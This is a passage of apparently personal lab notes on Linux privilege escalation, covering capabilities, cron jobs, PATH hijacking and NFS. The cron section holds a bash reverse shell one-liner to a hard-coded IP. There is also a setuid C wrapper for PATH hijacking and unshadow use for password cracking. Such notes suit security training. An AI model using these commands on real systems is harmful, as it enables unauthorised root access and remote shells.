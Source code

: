 ####	The unshadow tool’s usage can be seen below;
`unshadow passwd.txt shadow.txt > passwords.txt`

###	Privilege Escalation: Capabilities 
```
Another method system administrators can use to increase the privilege level of a process or binary is “Capabilities”. Capabilities help manage privileges at a more granular level. For example, if the SOC analyst needs to use a tool that needs to initiate socket connections, a regular user would not be able to do that. If the system administrator does not want to give this user higher privileges, they can change the capabilities of the binary. As a result, the binary would get through its task without needing a higher privilege user.
The capabilities man page provides detailed information on its usage and options.

We can use the 'getcap' tool to list enabled capabilities.

```
`getcap -r / 2>/dev/null
`

###	Privilege Escalation: Cron Jobs 
```
Each user on the system have their crontab file and can run specific tasks whether they are logged in or not. As you can expect, our goal will be to find a cron job set by root and have it run our script, ideally a shell.

Any user can read the file keeping system-wide cron jobs under /etc/crontab
```
`bash -i >& /dev/tcp/10.17.53.134/7777 0>&1`

###	Privilege Escalation: PATH 
    What folders are located under $PATH
    Does your current user have write privileges for any of these folders?
    Can you modify $PATH?
    Is there a script/application you can start that will be affected by this vulnerability?

```c
#include<unistd.h>
void main()
{
	setuid(0);
	setgid(0);
	system("thm")
}
```

`find / -writable 2>/dev/null`

`The folder that will be easier to write to is probably /tmp. At this point because /tmp is not present in PATH so we will need to add it. As we can see below, the “export PATH=/tmp:$PATH” command accomplishes this. `

```bash
echo /bin/bash > thm
chmod 777 thm
ls -l thm


./("script name")
```
###	Privilege Escalation: NFS 
	Privilege escalation vectors are not confined to internal access. Shared folders and remote management interfaces such as SSH and Telnet can also help you gain root access on the target system. Some cases will also require using both vectors, e.g. finding a root SSH private key on the target system and connecting via SSH with root privileges instead of trying to increase your current user’s privilege level.
